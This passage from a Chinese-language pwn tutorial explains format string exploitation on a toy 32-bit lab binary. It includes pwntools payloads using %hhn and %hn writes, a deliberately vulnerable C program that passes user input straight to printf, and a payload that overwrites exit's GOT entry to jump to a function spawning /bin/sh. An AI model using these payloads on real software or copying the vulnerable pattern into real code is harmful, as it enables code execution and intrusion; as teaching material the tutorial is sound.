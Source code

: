 ![0a680426ce61f38655621c78a0d1affb](images/0a680426ce61f38655621c78a0d1affb.png)

但是如果我们加上长度控制符，只覆盖一个字节的话，则会不同

```python
from pwn import *
# context.log_level = 'debug'
o = process("./format_attack_x32")
elf = ELF("./format_attack_x32")
a = 0x804a02c
payload = p32(a) + b"%7$hhn"
o.sendline(payload)
o.interactive()
```

![2dd2640fce4a75720903478c0c834d9d](images/2dd2640fce4a75720903478c0c834d9d.png)  

接下来我们尝试通过格式化字符串漏洞任意写got表内容为getshell函数地址，以一个例子来讲

```cpp
#include<stdio.h>
#include<stdlib.h>
void hint() {
    system("/bin/sh");
}
int main() {
    setbuf(stdout, 0);
    char buf[0x20];
    scanf("%s", buf);
    printf(buf);
    exit(0);
}
// gcc format_attack.c -o format_attack -m32 -no-pie
```

32位程序的地址一般都是满4个字节的，但是通过格式化字符串漏洞任意写的话首先要打印很长的字节才行，这样既低效又有可能执行失败。这里就得采用宽度控制符+分段覆盖的方法来完成。我们可以采取每两个字节一覆盖的形式来完成，首先我们来看一下hint函数的地址

![c24fee3a29c2edbd7af3e1f48054f123](images/c24fee3a29c2edbd7af3e1f48054f123.png)  

0x0804851b，这个数字的后两个字节大小比前两个字节的大小要大，所以我们可先考虑写入exit的got表高两位，再写入它的低两位。首先我们先想想如何写入前两个字节，在payload我们由于要分两段写入的，所以会在最前面放两个地址即exit的got表+2地址和exit的got表地址，这里就有了8个字节，然后还需要再打印0x804-8个字节打印出的字节才可以达到前两个字节的大小，这时候再通过 `%hn` 写入两个字节到got表+2的位置。接着来想办法写入后两个字节，前面已经打印了0x804个字节的内容了，然后还需要打印0x851b-0x804个字节才能满足后两个字节的大小，这时候再通过 `%hn` 写入两个字节到got表的位置。所以payload可以写为

```python
payload = p32(exit_got+2) + p32(exit_got)
payload += "%{}d%7$hn".format(0x804-8)
payload += "%{}d%8$hn".format(0x851b-0x804)
```

![695b0ce22176f7e3e4de767a58f9c2d8](images/695b0ce22176f7e3e4de767a58f9c2d8.png)  

前面一大段的空白是宽度控制符打印出来的空格，这时候exit的got表就已经填为了hint函数的地址了。而我们学过call函数的时候会首先跳转到plt表执行，然后plt里第一条指令是跳转去执行对应got表里存储的地址，这里我们已经覆盖为hint后，调用exit函数就会直接跳转去执行hint函数了
